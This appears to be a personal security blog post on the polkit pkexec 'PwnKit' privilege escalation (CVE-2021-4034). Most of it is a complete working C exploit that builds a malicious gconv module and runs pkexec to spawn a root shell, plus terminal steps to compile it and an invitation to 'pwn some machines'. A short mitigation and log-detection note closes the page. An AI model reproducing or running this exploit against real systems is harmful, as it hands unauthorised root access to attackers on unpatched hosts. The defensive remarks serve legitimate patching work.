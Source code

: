 ```yaml
---
layout: default
title : muzec - Polkit Pkexec (PwnKit) -  Local Privilege Escalation - CVE-2021-4034
---
```


### Description

A local privilege escalation vulnerability was found on polkit's pkexec utility. The pkexec application is a setuid tool designed to allow unprivileged users to run commands as privileged users according predefined policies. The current version of pkexec doesn't handle the calling parameters count correctly and ends trying to execute environment variables as commands. An attacker can leverage this by crafting environment variables in such a way it'll induce pkexec to execute arbitrary code. When successfully executed the attack can cause a local privilege escalation given unprivileged users administrative rights on the target machine.

### CVE

CVE-2021-4034

### Exploit Code Below;

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

char *shell = 
  "#include <stdio.h>\n"
  "#include <stdlib.h>\n"
  "#include <unistd.h>\n\n"
  "void gconv() {}\n"
  "void gconv_init() {\n"
  "  setuid(0); setgid(0);\n"
  "  seteuid(0); setegid(0);\n"
  "  system(\"export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; rm -rf 'GCONV_PATH=.' 'pwnkit'; /bin/sh\");\n"
  "  exit(0);\n"
  "}";

int main(int argc, char *argv[]) {
  FILE *fp;
  system("mkdir -p 'GCONV_PATH=.'; touch 'GCONV_PATH=./pwnkit'; chmod a+x 'GCONV_PATH=./pwnkit'");
  system("mkdir -p pwnkit; echo 'module UTF-8// PWNKIT// pwnkit 2' > pwnkit/gconv-modules");
  fp = fopen("pwnkit/pwnkit.c", "w");
  fprintf(fp, "%s", shell);
  fclose(fp);
  system("gcc pwnkit/pwnkit.c -o pwnkit/pwnkit.so -shared -fPIC");
  char *env[] = { "pwnkit", "PATH=GCONV_PATH=.", "CHARSET=PWNKIT", "SHELL=pwnkit", NULL };
  execve("/usr/bin/pkexec", (char*[]){NULL}, env);
}
```

### Exploiting Target Below;

Save exploit in a file name `exploit.c` or anything you like but it must end with `.c` let jump in already to get root lol.

```
┌──(muzec㉿Muzec-Security)-[~]
└─$ pkexec --version                                                                                                                                             127 ⨯
pkexec version 0.105
                                                                                                                                                                       
┌──(muzec㉿Muzec-Security)-[~]
└─$ cat /etc/issue
Kali GNU/Linux Rolling \n \l

                                                                                                                                                                       
┌──(muzec㉿Muzec-Security)-[~]
└─$ uname -a             
Linux Muzec-Security 5.10.0-kali4-amd64 #1 SMP Debian 5.10.19-1kali1 (2021-03-03) x86_64 GNU/Linux
                                                                                                                                                                       
┌──(muzec㉿Muzec-Security)-[~]
└─$ lsb_release -a
No LSB modules are available.
Distributor ID: Kali
Description:    Kali GNU/Linux Rolling
Release:        2021.1
Codename:       kali-rolling
                                                                                                                                                                       
┌──(muzec㉿Muzec-Security)-[~]
└─$ nano exploit.c 
                                                                                                                                                                       
┌──(muzec㉿Muzec-Security)-[~]
└─$ gcc exploit.c -o exploit
```

Now that we have compile it let run it and have a shining root .

![image](https://user-images.githubusercontent.com/69868171/151332320-d25cd237-7c38-4ff0-a397-8a3738196f36.png)


![image](https://user-images.githubusercontent.com/69868171/151332459-c3ce8c3f-3b7f-42eb-a0fa-26e89c971dd7.png)

Awesome right?? Now go ahead and pwn some machines wink: wink: 

If no patches are available for your Linux distro, as a short-term solution, you can remove the SUID-bit from `pkexec:` 

```
chmod 0755 /usr/bin/pkexec
```

Qualys also notes that the exploitation technique leaves traces in logs, that say either “The value for the SHELL variable was not found the /etc/shells file…" or “The value for environment variable … contains suspicious content."

